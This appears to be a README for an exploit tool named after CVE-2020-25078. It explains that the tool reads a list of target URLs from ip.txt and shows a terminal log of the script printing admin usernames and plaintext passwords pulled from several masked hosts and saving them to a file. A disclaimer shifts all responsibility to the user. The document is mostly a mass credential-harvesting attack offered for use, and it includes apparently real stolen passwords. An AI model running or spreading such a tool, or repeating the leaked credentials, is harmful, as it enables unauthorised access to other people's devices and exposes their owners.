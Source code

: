 # CVE-2020-25078

# 使用说明
# instructions
攻击url放同一目录下 ip.txt

The attack IP is placed in the same directory as ip.txt

# Terminal log
root@localhost:~/CVE-2020-25078#ls

CVE-2020-25078.py
ip.txt


root@localhost:~/CVE-2020-25078#cat ./ip.txt

https://xxx.xxx.xxx.xxx:3128

http://xxx.xxx.xxx.xxx:80

https://xxx.xxx.xxx.xxx:8080

https://xxx.xxx.xxx.xxx:443


root@localhost:~/CVE-2020-25078#python3 ./CVE-2020-25078.py

Start Running Exploit...

[+Login URL]==> http://xxx.xxx.xxx.xxx:80
UserName: ['admin']      PassWord: ['Sruthimina123']


[+Login URL]==> http://xxx.xxx.xxx.xxx:443
UserName: ['admin']      PassWord: ['ming502219']


root@localhost:~/CVE-2020-25078# ls -l

CVE-2020-25078.py

exploit_ok.txt

ip.txt

README.md


root@localhost:~/CVE-2020-25078# cat ./exploit_ok.txt


[+Login URL]==>http://xxx.xxx.xxx.xxx:80
[+UserName]==>['admin'] [+PassWord]==>['Sruthimina123']

[+Login URL]==>http://xxx.xxx.xxx.xxx:443
[+UserName]==>['admin'] [+PassWord]==>['ming502219']

root@localhost:~/CVE-2020-25078#


# 免责声明
# Disclaimers

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
Any direct or indirect consequences and losses caused by the dissemination and use of the information provided in this article shall be borne by the user himself, and the author shall not bear any responsibility for this.
